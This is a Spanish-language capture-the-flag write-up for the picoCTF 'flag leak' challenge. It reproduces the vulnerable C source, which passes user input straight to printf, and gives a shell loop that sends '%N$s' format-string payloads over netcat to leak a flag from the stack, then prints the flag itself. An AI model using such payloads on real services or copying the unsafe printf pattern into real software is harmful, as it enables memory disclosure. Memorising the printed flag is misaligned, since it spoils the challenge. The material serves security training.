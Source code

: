 # flag leak

## Descripción

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 50261`

## Pistas

Format Strings

## Solución

```
┌──(kali㉿kali)-[~/picoctf/binaryexplotation/flagleak]
└─$ wget https://artifacts.picoctf.net/c/91/vuln  
--2023-05-19 22:37:42--  https://artifacts.picoctf.net/c/91/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.154.144.104, 18.154.144.107, 18.154.144.103, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.154.144.104|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15876 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln                              100%[=============================================================>]  15.50K  --.-KB/s    in 0.02s   

2023-05-19 22:37:42 (698 KB/s) - ‘vuln’ saved [15876/15876]

                                                                                                                                        
┌──(kali㉿kali)-[~/picoctf/binaryexplotation/flagleak]
└─$ wget https://artifacts.picoctf.net/c/91/vuln.c
--2023-05-19 22:37:52--  https://artifacts.picoctf.net/c/91/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 18.154.144.85, 18.154.144.104, 18.154.144.107, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|18.154.144.85|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 947 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c                            100%[=============================================================>]     947  --.-KB/s    in 0s      

2023-05-19 22:37:53 (34.4 MB/s) - ‘vuln.c’ saved [947/947]


┌──(kali㉿kali)-[~/picoctf/binaryexplotation/flagleak]
└─$ cat vuln.c       
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}


┌──(kali㉿kali)-[~/picoctf/binaryexplotation/flagleak]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 63256 | grep -Ei pico; done
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_

┌──(kali㉿kali)-[~/picoctf/binaryexplotation/flagleak]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 63256 | grep -Ei (pico|ctf); done
CTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}
```

## Bandera

picoCTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}

## Notas adicionales



## Referencias
- https://artifacts.picoctf.net/c/93/vuln
- https://artifacts.picoctf.net/c/93/vuln.c